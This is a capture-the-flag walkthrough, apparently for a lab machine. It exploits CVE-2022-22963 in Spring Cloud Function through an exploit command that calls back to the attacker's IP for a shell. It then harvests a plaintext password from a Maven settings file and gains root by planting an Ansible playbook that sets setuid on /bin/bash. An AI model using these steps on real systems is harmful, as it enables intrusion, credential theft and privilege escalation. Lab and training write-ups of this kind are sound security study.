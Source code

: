 Out of these searchinf for `spring-cloud-function-web: version 3.2.2` Shows that it is vulnerable to CVE-2022-22963.[^fn:1]

Using the exploit, i modifed slightly to use pwncat-cs.

```sh
python exploit.py -i 10.10.14.147 -u http://10.10.11.204:8080
```

You now have foothold


### Foothold. {#foothold-dot}

you get back a shell as a user named `frank`.

looking around you can find a file at `~/.m2/settings.xml` which contains creds for user, which you can not use with ssh sadly.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

-   phil:DocPhillovestoInject123


### privesc {#privesc}

running linpeas shows alot of ansible related items and that `/opt/automation/` is writble to memebers of the automation group, which phil is.
running `pspy64` i see that root runs ansible on all playbooks in the automation directory.[^fn:2]

```text
2023/06/27 13:20:01 CMD: UID=0     PID=2559   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

I choose to write a playbook that sets suid on /bin/bash

```yaml
- hosts: localhost

  tasks:
    - name: Set setuid permission
      file:
        path: /bin/bash
        mode: "u+s"
```


[^fn:1]: Exploit i used
[^fn:2]: <https://github.com/DominicBreuker/pspy>